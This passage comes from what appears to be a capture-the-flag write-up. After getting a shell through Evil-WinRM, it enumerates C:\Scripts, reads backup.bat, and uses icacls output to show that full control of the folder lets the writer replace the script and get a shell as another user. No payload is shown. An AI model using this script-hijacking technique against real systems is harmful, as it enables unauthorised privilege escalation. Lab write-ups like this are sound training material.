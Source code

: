 After obtaining a shell, we notice an interesting directory at `C:\`, named `Scripts`.

```
*Evil-WinRM* PS C:\Users\j.smith\Documents> dir C:\


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/14/2018   6:56 AM                EFI
d-----        5/13/2020   5:58 PM                PerfLogs
d-r---       11/14/2018   4:10 PM                Program Files
d-----        3/11/2021   7:29 AM                Program Files (x86)
d-----        5/30/2023   1:32 AM                Scripts
d-r---        5/30/2023   2:29 AM                Users
d-----        5/30/2023   1:17 AM                Windows
```

Inside the `C:\Scripts` directory, we see a script called `backup.bat`, which copies `C:\Users\o.armstrong\Desktop\notes.txt` to `C:\Users\o.armstrong\Documents\backup_notes.txt`.

```
*Evil-WinRM* PS C:\Scripts> dir


    Directory: C:\Scripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/30/2023   1:32 AM             92 backup.bat


*Evil-WinRM* PS C:\Scripts> type backup.bat
copy C:\Users\o.armstrong\Desktop\notes.txt C:\Users\o.armstrong\Documents\backup_notes.txt
```

While we don't have any rights to the `backup.bat` file, we have full control over the `C:\Scripts` directory. Therefore, we can delete the existing script and create a new one with the same name to obtain a shell.

```
*Evil-WinRM* PS C:\Scripts> icacls backup.bat
backup.bat NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Administrators:(I)(F)
           BUILTIN\Users:(I)(RX)
           K2\o.armstrong:(I)(F)

Successfully processed 1 files; Failed processing 0 files

*Evil-WinRM* PS C:\Scripts> icacls C:\Scripts
C:\Scripts K2\j.smith:(F)
           K2\o.armstrong:(F)
           NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
           BUILTIN\Administrators:(I)(OI)(CI)(F)
           BUILTIN\Users:(I)(OI)(CI)(RX)
           BUILTIN\Users:(I)(CI)(AD)
           BUILTIN\Users:(I)(CI)(WD)
           CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```
